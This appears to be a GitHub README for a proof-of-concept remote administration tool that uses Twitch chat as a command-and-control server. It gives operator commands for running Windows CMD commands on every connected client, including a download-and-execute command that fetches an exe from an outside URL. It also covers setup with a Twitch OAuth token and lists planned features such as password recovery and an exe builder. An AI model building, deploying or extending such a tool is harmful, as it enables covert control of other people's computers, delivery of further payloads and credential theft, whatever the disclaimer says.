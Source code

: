 # TwitchCommand [![Open Source Love](https://badges.frapsoft.com/os/v2/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/) [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/)
A PoC remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features
```cmd``` Windows CMD commands.

```de``` Download and execute. File is removed after execution.

# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

```
!list
```

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.
```
!act client command action true
```
- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.
- True is just a placeholder value as I was too lazy to scrub \r\n off the final value. You can write anything.

An example cmd command would be:

```
!act all cmd start. true
```

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC.

An example download+execute command would be:

```
!act DESKTOP-TEST de https://example.com/files/file.exe true
```
It currently only supports exe files.

# Creating the program.
### Coming soon: a builder.
Making the program is quite simple. 
- Change the NICK value on line 8 to your Twitch username.
- Change the PASS value on line 9 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 10 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.

# Upcoming features
- More modules (password recovery coming soon.)
- Download & execute supporting all file types.
- Removing the requirement for 'true' in commands (proper scrubbing.)
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.
